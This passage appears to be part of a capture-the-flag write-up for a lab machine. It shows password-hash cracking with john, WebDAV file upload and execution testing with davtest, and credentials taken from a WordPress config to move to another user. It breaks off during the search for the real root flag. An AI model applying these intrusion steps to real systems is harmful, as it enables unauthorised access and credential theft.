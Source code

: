  john --wordlist=/usr/share/wordlists/rockyou.txt passu
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
babygurl69       (webdav_tester)
```


Oh well. On to the webdav then.

# Webdav
```
davtest -quiet -url http://10.10.10.67/webdav_test_inception/ -auth webdav_tester:babygurl69

/usr/bin/davtest Summary:
Created: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.shtml
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.cfm
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.cgi
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.html
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.jsp
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.jhtml
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.pl
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.asp
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.aspx
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.php
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.txt
Executes: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.html
Executes: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.php
Executes: http://10.10.10.67/webdav_test_inception/DavTestDir_fl786S7/davtest_fl786S7.txt
```

We get RCE. Now we have limited shell access with a limited user.
There is a wordpress site, which contains mysql creds. 

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'VwPddNh7xMZyDQoByQL4');
```

These creds can be used to gain access to user cobb. 
SSH over squid is possible: https://platonic.techfiz.info/2011/05/corkscrew-for-ssh-over-squid/

# Fake root!

Now we can log in with cobb. cobb is conveniently able to sudo to root, but root.txt has no flag! 

.temp directory reveals that this is LXD container. This was pretty evident from ps -Af that this is not a normal machine, but now there is
confirmation. What to do next to get the REAL root flag?

AAAH.

# Long search for root

There is a hint in the root.txt to look for a train. After a long and exhausting search about LX container security and such, there is FTP running at 192.168.0.1

```
